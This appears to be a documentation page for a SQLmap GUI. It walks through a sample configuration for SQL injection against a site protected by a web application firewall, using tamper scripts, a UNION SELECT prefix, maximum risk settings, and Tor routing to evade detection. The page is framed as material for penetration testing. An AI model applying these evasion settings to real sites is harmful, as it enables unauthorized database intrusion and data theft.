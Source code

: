 # Advanced SQL Injection Techniques Examples

This document demonstrates advanced SQL injection testing scenarios using the SQLmap GUI, including WAF bypass, complex payload customization, and sophisticated exploitation techniques.

## 🛡️ Advanced WAF Bypass Techniques

### Example 1: Multi-Layer WAF Evasion
**Scenario:** Bypass advanced WAF with multiple protection layers

**Target Information:**
- URL: `http://protected-site.com/search.php?q=test`
- WAF: Cloudflare + ModSecurity + Custom Rules
- Protection: SQL injection, XSS, command injection

**GUI Configuration:**
```
Target Tab:
├── URL: http://protected-site.com/search.php?q=test
├── Random Agent: ✓
└── Delay: 5

Injection Tab:
├── Testable Parameters: q
├── Tamper Scripts:
│   ├── space2comment
│   ├── randomcase
│   ├── apostrophemask
│   ├── base64encode
│   └── versionedkeywords
├── Prefix: ' UNION SELECT
├── Suffix: -- -
├── Invalid Logical: ✓
└── No Escape: ✓

Detection Tab:
├── Level: 5 (Maximum detection)
├── Risk: 3 (Maximum risk)
├── Techniques: BEUSTQ (All techniques)
├── Time Delay: 5
└── Retries: 3

Request Tab:
├── Tor: ✓
├── Tor Type: SOCKS5
├── Chunked: ✓
└── Timeout: 120

Miscellaneous Tab:
├── Second-Order: http://protected-site.com/profile.php?id=1
├── Alert Command: curl -X POST https://webhook.site/alert
└── Beep: ✓
```
